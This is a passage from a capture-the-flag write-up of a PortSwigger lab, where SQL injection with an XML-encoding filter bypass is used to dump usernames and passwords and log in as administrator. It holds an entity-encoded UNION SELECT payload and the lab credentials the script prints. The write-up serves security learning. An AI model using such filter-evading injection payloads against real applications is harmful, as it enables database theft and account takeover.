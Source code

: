 ```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py               
381 units
password
username
```

- Found columns in table `users`: `password`, `username`

**Finally, we can extract all information from that table:**
```py
# UNION SELECT username||':'||password FROM users
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&#39;&#58;&#39;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
carlos:87v3kz1n8lj3lsbk16lb
administrator:g71rod6iiqnst89r8ver
381 units
wiener:0nsi7q3oliz4bltzgrcn
```

- Found `administrator` password: `g71rod6iiqnst89r8ver`

**Let's login as `administrator`!!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211033058.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211033111.png)

We're user `administrator`!!

# What we've learned:

1. SQL injection with filter bypass via XML encoding